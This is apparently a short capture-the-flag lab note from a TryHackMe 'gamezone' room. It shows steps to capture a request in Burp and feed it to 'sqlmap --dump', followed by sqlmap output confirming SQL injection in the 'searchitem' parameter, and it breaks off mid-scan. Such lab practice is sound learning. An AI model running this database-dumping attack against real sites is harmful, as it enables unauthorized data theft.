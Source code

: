 


### using SQLMap ###
        #there aremany diff types of SQLi, but SQLMap is automatic and tries all of it

#1 intercept search request w burp
#2 save it to a text file
#3 pass it into sqlmap:
┌──(kali㉿kali)-[~/THM/practice/gamezone]
└─$ sqlmap -r search_request.txt --dbms=mysql --dump                                        
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:55:43 /2022-02-11/

[07:55:43] [INFO] parsing HTTP request from 'search_request.txt'
[07:55:44] [INFO] testing connection to the target URL
[07:55:44] [INFO] checking if the target is protected by some kind of WAF/IPS
[07:55:44] [INFO] testing if the target URL content is stable
[07:55:44] [INFO] target URL content is stable
[07:55:44] [INFO] testing if POST parameter 'searchitem' is dynamic
[07:55:44] [INFO] POST parameter 'searchitem' appears to be dynamic
[07:55:44] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[07:55:44] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[07:55:44] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[07:55:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:55:55] [WARNING] reflective value(s) found and filtering out
[07:55:56] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[07:55:56] [INFO] testing 'Generic inline queries'
[07:55:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[07:55:56] [INFO] POST parameter 'searchitem' appears to be 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="its")
[07:55:56] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[07:55:56] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[07:55:56] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[07:55:56] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[07:55:56] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[07:55:56] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[07:55:56] [INFO] testing 'MySQL inline queries'
[07:55:56] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[07:55:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[07:55:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[07:55:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[07:55:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[07:55:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[07:55:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'